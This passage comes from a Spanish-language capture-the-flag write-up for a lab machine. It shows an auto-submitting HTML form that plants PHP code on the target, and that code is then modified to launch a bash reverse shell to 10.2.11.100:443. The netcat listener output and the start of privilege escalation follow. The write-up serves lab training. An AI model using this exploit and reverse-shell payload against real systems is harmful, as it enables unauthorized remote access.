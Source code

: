 ![ads](ads.png)

Una vez ejecutado el archivo HTML, podemos acceder a la página en `http://10.10.151.164/content/inc/ads/hacked.php`. 

Como se puede observar, el código PHP se ha interpretado correctamente.

![hacked](hacked.png)

El siguiente paso es modificar el archivo HTML para generar una reverse shell en lugar de simplemente imprimir la frase "Hacked".

```bash
<html>
<body onload="document.exploit.submit();">
<form action="http://10.10.151.164/content/as/?type=ad&mode=save" method="POST" name="exploit">
<input type="hidden" name="adk" value="hacked"/>
<textarea type="hidden" name="adv">
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.2.11.100/443 0>&1'");
phpinfo();?>
&lt;/textarea&gt;
</form>
</body>
</html>
```

Una vez realizada la modificación, accedemos a la siguiente ruta:

```bash
10.10.151.164/content/inc/ads/hacked.php
```

Después de acceder a la ruta y haber establecido la escucha previa, deberíamos tener acceso al sistema como el usuario `www-data`.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.2.11.100] from (UNKNOWN) [10.10.151.164] 35610
bash: cannot set terminal process group (1055): Inappropriate ioctl for device
bash: no job control in this shell
www-data@THM-Chal:/var/www/html/content/inc/ads$ whoami
whoami
www-data
```

## Escalación de privilegios

---

Al acceder al directorio principal del usuario `itguy` y listar los archivos y directorios, nos encontraremos con lo siguiente:

```bash
www-data@THM-Chal:/home/itguy$ ls -al
total 148
drwxr-xr-x 18 itguy itguy 4096 Nov 30  2019 .
drwxr-xr-x  3 root  root  4096 Nov 29  2019 ..
-rw-------  1 itguy itguy 1630 Nov 30  2019 .ICEauthority
-rw-------  1 itguy itguy   53 Nov 30  2019 .Xauthority
lrwxrwxrwx  1 root  root     9 Nov 29  2019 .bash_history -> /dev/null
-rw-r--r--  1 itguy itguy  220 Nov 29  2019 .bash_logout
-rw-r--r--  1 itguy itguy 3771 Nov 29  2019 .bashrc
drwx------ 13 itguy itguy 4096 Nov 29  2019 .cache
drwx------ 14 itguy itguy 4096 Nov 29  2019 .config
drwx------  3 itguy itguy 4096 Nov 29  2019 .dbus
-rw-r--r--  1 itguy itguy   25 Nov 29  2019 .dmrc
```